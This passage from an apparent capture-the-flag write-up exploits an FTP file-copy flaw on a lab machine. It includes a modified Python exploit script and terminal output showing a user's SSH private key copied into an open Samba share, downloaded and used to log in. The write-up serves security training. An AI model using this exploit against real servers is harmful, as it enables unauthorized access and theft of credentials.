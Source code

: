 ### Preparing an attack
These exploits allowed me to arbitrarily copy files around on the filesystem. Since I had a key and a few points of exfiltration, it seemed worth attempting. The second option in the list, exploit `36803`, included a python script that I modified to accept a source and destination argument. I then used the exploit to move the `kenobi` user's ssh key into the samba share. I've included the modified script below.

```python
import socket
import sys

if(len(sys.argv) < 4):
    print('\n Usage : exploit.py server directory cmd')
else:
    server = sys.argv[1] # vulnerable server
    src = sys.argv[2] # source file to move
    dest = sys.argv[3] # new destination of source file

    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.connect((server, 21))
        s.recv(1024)
        print('[ + ] Connected to server [ + ]\n')
        s.send(f'site cpfr {src} \n'.encode())
        s.recv(1024)
        s.send(f'site cpto {dest} \n'.encode())
        s.recv(1024)
```

```
root@kali:~/exploit# python3 exploit.py $ATTACKTARGET '/home/kenobi/.ssh/id_rsa' '/home/kenobi/share/id_rsa'
[ + ] Connected to server [ + ]

root@kali:~# smbclient //$ATTACKTARGET/anonymous
Enter WORKGROUP\root's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Nov 15 00:53:15 2020
  ..                                  D        0  Wed Sep  4 10:56:07 2019
  id_rsa                              N     1675  Sun Nov 15 00:53:15 2020
  log.txt                             N    12237  Wed Sep  4 10:49:09 2019

		9204224 blocks of size 1024. 6877112 blocks available
smb: \> get id_rsa 
getting file \id_rsa of size 1675 as id_rsa (817.8 KiloBytes/sec) (average 817.9 KiloBytes/sec)
smb: \> 
root@kali:~# mv id_rsa ~/.ssh/kenobi && chmod 600 ~/.ssh/kenobi
root@kali:~# ssh kenobi@$ATTACKTARGET -i ~/.ssh/kenobi 
load pubkey "/root/.ssh/kenobi": invalid format
The authenticity of host '10.10.221.157 (10.10.221.157)' can't be established.
ECDSA key fingerprint is SHA256:uUzATQRA9mwUNjGY6h0B/wjpaZXJasCPBY30BvtMsPI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.221.157' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.8.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

103 packages can be updated.
65 updates are security updates.


Last login: Wed Sep  4 07:10:15 2019 from 192.168.1.147
```